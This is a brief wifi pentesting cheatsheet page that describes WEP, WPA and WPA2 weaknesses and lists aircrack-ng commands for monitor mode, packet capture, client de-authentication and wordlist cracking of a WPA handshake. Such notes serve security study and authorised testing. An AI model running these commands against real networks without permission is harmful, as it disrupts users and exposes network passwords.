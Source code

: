 ```yaml
---
layout: page
title:  "Wifi hacking"
permalink: "pentesting-wifi.html"
tags: [security, pentesting]
summary: "A cheatsheet for WIFI hacking. For the description of the protocols, have a look at the networking section."
---
```



## WIFI encryption schemes
* WEP: was the original encryption scheme for wireless. Quickly discovered to be
  flawed. Used RC4, but because of the small key size (24-bit), repeated the IV
  about every 5,000 packets enabling easy cracking on a busy network using
  statistical attacks
* WPA: quick fix for the flaws of WEP, adding a larger key and TKIP to make it
  slightly more difficult to crack
* WPA2-PSK: uses a pre-shared key (PSK) and AES. Then salts the hashes with the
  SSID. Hash exchanged at authentication in a four-way handshake
* WPA2-Enterprise: most secure. Uses a 128-bit key, AES, and a remote
 authentication server (RADIUS)


## Aircrack-ng
* Start monitor mode: `airmon-ng start $DEV`
* Capture data: `airodump-ng`
* De-authenticate clients: `aireplay-ng -0 1 -a $BSSID $DEV`
* Crack WPA: `aircrack-ng -a2 -b $BSSID -w wordlist.txt file-with-handshake.cap`


## Resources and references
* [WPA3 flaw](https://amp.thehackernews.com/thn/2019/04/wpa3-hack-wifi-password.html?__twitter_impression=true)
